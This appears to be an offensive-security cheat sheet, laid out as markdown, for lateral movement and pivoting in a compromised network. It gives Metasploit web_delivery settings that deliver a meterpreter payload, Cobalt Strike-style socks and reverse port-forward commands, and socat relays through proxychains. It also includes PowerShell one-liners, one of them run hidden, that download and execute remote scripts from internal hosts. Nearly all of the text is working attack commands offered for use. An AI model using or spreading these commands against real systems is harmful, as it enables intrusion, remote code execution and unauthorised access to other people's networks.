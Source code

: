 
### Metasploit
```
portfwd add -R -p 8080 -L 192.168.100.166 -l 443
msf5 > use exploit/multi/script/web_delivery
msf5 exploit(multi/script/web_delivery) > set target 2
msf5 exploit(multi/script/web_delivery) > set SRVHOST 192.168.100.166
msf5 exploit(multi/script/web_delivery) > set SRVPORT 443
msf5 exploit(multi/script/web_delivery) > set payload windows/x64/meterpreter/bind_tcp
msf5 exploit(multi/script/web_delivery) > set EXITFUNC thread
msf5 exploit(multi/script/web_delivery) > set URIPATH /msf.ps1
msf5 exploit(multi/script/web_delivery) > exploit -j
``

### CS
```
socks 1080

rportfwd 8080 192.168.100.166 443

proxychains socat TCP4-Listen:1433,fork TCP:10.10.120.20:1433

PS C:\Users\Commando> $OriginalCommand = "iex (New-Object Net.WebClient).DownloadString('http://wkstn-1555:8080/a')"
PS C:\Users\Commando> [System.Convert]::ToBase64String([System.Text.Encoding]::unicode.GetBytes($OriginalCommand))

```

### RDP
```
socks 1337
proxychains socat TCP4-LISTEN:3389,fork TCP4:10.0.0.100:3389
rportfwd 8080 178.62.56.134 80
powershell.exe -nop -w hidden -c "iex ((new-object net.webclient).downloadstring('http://10.0.1.200:8080/smb'))"

```

